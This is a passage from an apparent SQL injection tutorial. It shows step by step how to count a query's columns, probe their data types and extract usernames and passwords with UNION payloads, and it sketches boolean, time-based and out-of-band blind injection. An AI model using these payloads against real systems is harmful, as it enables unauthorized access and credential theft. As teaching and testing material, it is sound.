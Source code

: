 #### 1. Determine the Number of Columns

**Method 1: Using ORDER BY clause**
```sql
Original: SELECT title, cost FROM product WHERE id=1
Test: SELECT title, cost FROM product WHERE id=1 ORDER BY 1--
Test: SELECT title, cost FROM product WHERE id=1 ORDER BY 2--
Test: SELECT title, cost FROM product WHERE id=1 ORDER BY 3--
```
Continue incrementing until you get an error like "Position 3 is out of range"

**Method 2: Using NULL values**
```sql
Test: ' UNION SELECT NULL--
Error: "All queries combined using UNION must have equal number of expressions"

Test: ' UNION SELECT NULL, NULL--
Success: No error (indicates 2 columns)
```

#### 2. Determine Data Types
Test whether columns can hold string data:
```sql
Test: ' UNION SELECT 'a', NULL--
Error: "Conversion failed converting varchar value 'a' to datatype int"
(This tells us the first column expects an integer)

Test: ' UNION SELECT NULL, 'a'--
Success: (This tells us the second column accepts strings)
```

#### 3. Extract Data
```sql
Payload: ' UNION SELECT username, password FROM users--
```

### Blind SQL Injection Exploitation

#### Boolean-Based Exploitation
1. Submit a Boolean expression that evaluates to FALSE, then one that evaluates to TRUE
2. Note the differences in application response
3. Automate the process to ask the database a series of TRUE/FALSE questions
4. Gradually extract data character by character

#### Time-Based Exploitation
1. Submit payloads that cause the application to pause for a specific time period
2. Measure response times to determine if conditions are true or false
3. Automate the process to systematically extract data

#### Out-of-Band Exploitation
1. Submit OAST payloads designed to trigger out-of-band network connections
2. Use various methods (HTTP, DNS) to exfiltrate data
3. Monitor external systems for incoming connections containing extracted data
